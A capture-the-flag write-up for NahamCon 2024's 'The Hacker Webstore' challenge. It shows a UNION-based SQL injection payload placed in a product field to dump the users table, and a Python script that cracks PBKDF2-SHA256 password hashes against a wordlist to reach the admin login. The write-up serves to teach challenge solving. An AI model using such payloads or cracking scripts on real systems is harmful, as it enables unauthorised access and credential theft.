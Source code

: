 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | The Hacker Webstore Writeup
desc: Check out our writeup for The Hacker Webstore for Nahamcon 2024 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: web
challenge: The Hacker Webstore
tags: "web, starry, sql, sqli, cracking"
date: 2024-05-28T00:00:00+00:00
last_modified_at: 2024-05-28T00:00:00+00:00
---
```



> Solved by: Starlord

Mirror : <a href="https://synthweb.ch/blog/nahamcon-ctf-2024/the-hacker-webstore">https://synthweb.ch/blog/nahamcon-ctf-2024/the-hacker-webstore</a>

![challenge description](https://i.imgur.com/TNLkY9J.png)


As we visit the challenge page, we can see an online store, which sells products aimed at hacker stereotypes.
There are 2 endpoints:

- / for products
- /create to create products
- /admin to login to the website’s back-end

Since we can create products I tried breaking one of 3 inputs by adding `'``)` to one of them, which returned this very helpful error, which helped understand what was going on.

![products page with sql error](https://i.imgur.com/Iy17z9A.png)


the following payload inserted in the description field did the trick for me:

```
lord') UNION SELECT * FROM users/*
```

This will show everything from the table `users` and comment out the rest of the line.


![uncrackable hashes](https://i.imgur.com/FTE7qtQ.png)


From there it was just a matter of cracking the hashes. But it turned out to be more complicated than usual:
As per research, we found out that hashcat and john the ripper, 2 most commonly used tools for cracking hashes, had multiple ways of cracking pbkdf2 sha256 hashes, but none of them had a working function for our specific current hash format.
We managed to identify the different parts of the hash thanks to reddit and stack overflow posts which looks like this:

    pbkdf2:sha256:<iterations amount>$<Salt>$<hash>

After trying desperately with modes 10900, 10000, 1460, the hashes were not cracking.

Remember, we have 2000 potential passwords in a list given in the challenge description, so even if we have 600k iterations, it shouldn’t take too long.

I ended up making my own decryption tool:

- crack.py

```python
import hashlib

def crack_pbkdf2_sha256_hash(password_list_file, target_hash, salt, iterations):
    with open(password_list_file, 'r') as file:
        passwords = file.read().splitlines()
    
    for password in passwords:
        # make PBKDF2-HMAC-SHA256
        dk = hashlib.pbkdf2_hmac('sha256', password.encode(), salt.encode(), iterations)
        print(f"Trying password: {password}")
        
        # match check
        if dk.hex() == target_hash:
            print(f"Password found: {password}")
            return password
    
    print("Password not found in the provided list.")
    return None

target_hash = "b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57"
salt = "MSok34zBufo9d1tc"
iterations = 600000
password_list_file = "password_list.txt"

crack_pbkdf2_sha256_hash(password_list_file, target_hash, salt, iterations)
```

I made sure it would print each password to be able to visually confirm progress, as shown below:

![password found](https://i.imgur.com/FCaLxvU.png)


With this, I could then authenticate at /admin and see the flag:

![flag discovered](https://i.imgur.com/of6ycSh.png)

```
flag{87257f24fd71ea9ed8aa62837e768ec0}
```

